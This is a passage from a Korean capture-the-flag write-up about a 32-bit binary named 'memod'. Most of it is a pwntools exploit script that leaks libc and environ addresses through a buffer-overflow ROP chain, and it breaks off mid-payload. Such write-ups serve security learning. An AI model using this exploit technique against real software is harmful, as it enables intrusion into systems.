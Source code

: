 물론 ROP로도 풀이가 가능해서 `mprotect()`를 이용한 ROP로도 payload를 작성했다.

## 0x03. Payload

### environ을 이용한 payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "memod"
LIBRARY = "libc.so.6"

bp = {
    'read_of_main' : 0x08048703,
    'fgets_of_main' : 0x804875a,
    'canary_backup' : 0x08049b2c,
    'end_of_main' : 0x080487ce,
}

gs = f'''
b *{bp['fgets_of_main']}
b *{bp['end_of_main']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    # leak libc
    s.send(b"1" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"A" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"BBBB"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pop ret gadget)
    payload += p32(elf.got['write'])    # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    libc = u32(r[0:4]) - lib.symbols["write"]
    environ = libc + lib.symbols['environ']
    log.info(f"libc : {hex(libc)}")
    log.info(f"environ : {hex(environ)}")

    # leak stack
    s.send(b"2" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"C" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
```